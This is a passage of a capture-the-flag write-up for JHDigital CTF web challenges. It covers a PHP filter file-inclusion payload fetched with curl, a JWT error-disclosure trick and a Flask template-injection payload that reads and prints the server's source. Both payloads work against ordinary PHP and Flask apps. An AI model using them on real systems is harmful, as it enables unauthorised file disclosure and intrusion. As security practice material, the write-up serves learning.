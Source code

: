 payload
```bash
php://filter/convert.base64-encode/resource=FLAG
```
and we decode it,
```bash
curl http://jh2i.com:50014/index.php\?page\=php://filter/convert.base64-encode/resource\=FLAG | base64 --d

Flag = JHDCTF{lmfao_php_filters_ftw!!!}
```

## &nbsp;
## JaWT
```
90
Check the admin's scratchpad!

Connect here: http://jh2i.com:50019//
```

it's jwt challenge. first change the jwt cookie to whatever you want. the idea is to broke the app and show it's error. 
after the page show it's errors,**VOILA!!** we just found the flag.
![JaWT](./writeup-jhdigital-ctf/pics/jawt.png)

    Flag = JHDCTF{jawt_was_just_what_you_thought}

## &nbsp;
## MASK
```
90
Take off your mask.

Connect here: http://jh2i.com:50023.
```
this is Flask Template injection, we can make it sure by typing {{1+1}} on the input it show "2".

we can use this payload to read the app code.
```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('server.py').read() }}
```

and it returns :
```python
 #!/usr/bin/env python

import flask
from flask import request, render_template_string


app = flask.Flask(__name__)
app.config.from_object(__name__)
app.secret_key = 'JHDCTF{server_side_template_injection_unmasked}'


@app.route('/', methods = ["GET", "POST"])
def index(): 

	mask = "... you have not yet taken off your mask!"

	if request.method == "POST":
		mask = request.form['mask']
```